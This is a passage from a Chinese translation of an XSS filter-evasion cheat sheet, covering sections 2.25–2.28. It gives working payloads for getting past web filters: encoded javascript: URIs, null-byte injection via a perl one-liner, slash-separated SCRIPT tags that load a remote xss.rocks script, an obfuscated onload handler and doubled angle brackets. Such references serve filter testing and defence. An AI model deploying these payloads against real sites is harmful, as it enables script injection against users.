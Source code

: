 注意：上面使用了比实际需要长的字符串是因为0可以忽略。经常可以遇到过滤器解码十六进制和十进制编码时认为只有2到3位字符。实际规则是1至7位字符：


<IMG SRC=”jav&#x0D;ascript:alert(‘XSS’);”>




### 2.25.    使用空字符分隔JavaScript指令

空字符同样可以作为XSS攻击向量，但和上面有所区别，你需要使用一些例如Burp工具或在URL字符串里使用%00，亦或你想使用VIM编写自己的注入工具（^V^@会生成空字符），还可以通过程序生成它到一个文本文件。老版本的Opera浏览器（例如Windows版的7.11）还会受另一个字符173（软连字符）的影响。但是空字符%00更加有用并且能帮助绕过真实世界里的过滤器，例如这个例子里的变形：


perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out




### 2.26.    利用IMG标签中JavaScript指令前的空格和元字符

如果过滤器不计算”javascript:”前的空格，这是正确的，因为它们不会被解析，但这点非常有用。因为这会造成错误的假设，就是引号和”javascript:”字样间不能有任何字符。实际情况是你可以插入任何十进制的1至32号字符：


<IMG SRC=” &#14;  javascript:alert(‘XSS’);”>




### 2.27.    利用非字母非数字字符

FireFox的HTML解析器认为HTML关键词后不能有非字母非数字字符，并且认为这是一个空白或在HTML标签后的无效符号。但问题是有的XSS过滤器认为它们要查找的标记会被空白字符分隔。例如”<SCRIPT\s” != “<SCRIPT/XSS\s”:


<SCRIPT/XSS SRC=”<http://xss.rocks/xss.js>“></SCRIPT>




基于上面的原理，可以使用模糊测试进行扩展。Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间，这会使得更加容易绕过跨站脚本过滤。注意这同样适用于下面看到的重音符:


<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>




Yair Amit让我注意到了IE和Gecko渲染引擎有一点不同行为，在于是否在HTML标签和参数之间允许一个不含空格的斜杠。这会非常有用如果系统不允许空格的时候。


SCRIPT/SRC=”<http://xss.rocks/xss.js“></SCRIPT>




### 2.28.    额外的尖括号

由Franz Sedlmaier提交，这个XSS攻击向量可以绕过某些检测引擎，比如先查找第一个匹配的尖括号，然后比较里面的标签内容，而不是使用更有效的算法，例如Boyer-Moore算法就是查找整个字符串中的尖括号和相应标签（当然是通过模糊匹配）。双斜杠注释了额外的尖括号来防止出现JavaScript错误：


<<SCRIPT>alert(“XSS”);//<</SCRIPT>
